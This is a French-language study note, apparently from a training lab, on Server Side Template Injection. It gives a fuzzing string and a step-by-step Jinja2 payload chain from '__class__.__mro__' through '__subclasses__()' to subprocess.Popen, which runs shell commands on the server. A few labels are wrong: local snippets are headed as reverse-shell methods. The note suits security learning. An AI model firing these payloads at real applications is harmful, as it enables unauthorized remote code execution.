

# Server Side Template Injection (SSTI)
L'objectif principal est généralement  d'obtenir l'exécution de code à distance

Les Point d'injection:
- URL
- Zone de saisie

## Fuzzing
Les moteurs de modèles utilisent un jeu de caractères similaire pour leurs « fonctions spéciales », ce qui permet de détecter rapidement s'il est vulnérable au SSTI.

Payload:  ils peuvent être envoyés les uns après les autres. 

```sh
${{<%[%'"}}%
```

> Continuez ce processus jusqu'à ce que vous obteniez une erreur ou que certains caractères commencent à disparaître de la sortie.



## Exploit

A ce stade, nous savons :
- L'application est vulnérable au SSTI
- Le point d'injection
- Le moteur de modèles
- La syntaxe du moteur de modèles


## POC Jinja 2
Jinja2 est essentiellement un sous-langage de Python qui n'intègre pas l' instruction `import`
Not work: `http://MACHINE_IP:5000/profile/{{ os.system("whoami") }}`

Revershell 03 methodes:
```sh
import os
os.system("whoami")
```

```sh
import os
os.popen("whoami").read()
```

```sh
import subprocess
subprocess.Popen("whoami", shell=True, stdout=-1).communicate()
```

---
- Python nous permet d'appeler l'instance de classe actuelle avec .__class__ , nous pouvons appeler ceci sur une chaîne vide :
```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__ }}
```

- Les classes en Python ont un attribut appelé .__mro__ qui nous permet de remonter dans l'arborescence des objets hérités :
```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__ }}
```

- Puisque nous voulons l'objet racine, nous pouvons accéder à la deuxième propriété (premier index) :
```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1] }}
``` 

- Les objets en Python ont une méthode appelée .__subclassess__ qui nous permet de descendre dans l'arborescence des objets :
```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__() }}
```

Comme l’ensemble de cette sortie n’est qu’une liste Python, 
Nous devons maintenant trouver un objet qui nous permet d'exécuter des commandes shell. Faire un Ctrl-F et rechercher
`subprocess.Popen` nous pouvons y accéder en utilisant son index.

```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401] }}
```


il ne nous reste plus qu'à l'invoquer 

```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
```

